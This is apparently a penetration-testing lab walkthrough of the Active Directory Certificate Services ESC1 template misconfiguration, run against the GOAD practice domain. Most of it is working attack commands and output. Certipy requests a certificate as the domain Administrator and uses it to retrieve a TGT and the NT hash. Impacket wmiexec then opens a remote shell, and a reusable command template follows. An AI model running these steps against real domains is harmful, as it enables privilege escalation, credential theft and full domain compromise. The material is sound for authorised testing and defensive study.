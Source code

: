 it is possible to specify an alternate user in a certificate request. If a certificate template permits the inclusion of a `subjectAltName` (`SAN`) that differs from the user submitting the certificate signing request (CSR), this functionality can be exploited. Specifically, an attacker can request a certificate on behalf of any user in the domain by including their `subjectAltName` in the request.

The following prerequisites must apply:
- Enrollment Rights: `DOMAIN\Domain Users`.
- Requires Manager Approval: `False`.
- Authorized Signature Required: `0`.
- Client Authentication: `True` or Extended Key Usage `Client Authentication`.
- Enrollee Supplies Subject: `True`

Take note of the Template Name and Certificate Authority:

![[Pasted image 20241005173153.png]]

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garfffff:~/GOAD/adcs/esc1$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC1 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

We can also authenticate to a domain controller using the TGT saved. This requires the DC to be resolved using DNS:

```bash
garffff@garffff:~/GOAD/adcs/esc1$ ls administrator.*
administrator.ccache  administrator.pfx
garffff@garffff:~/GOAD/adcs/esc1$ export KRB5CCNAME=administrator.ccache
garffff@garffff:~/GOAD/adcs/esc1$ wmiexec.py -k -no-pass meereen.essos.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

Summary

```bash
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```


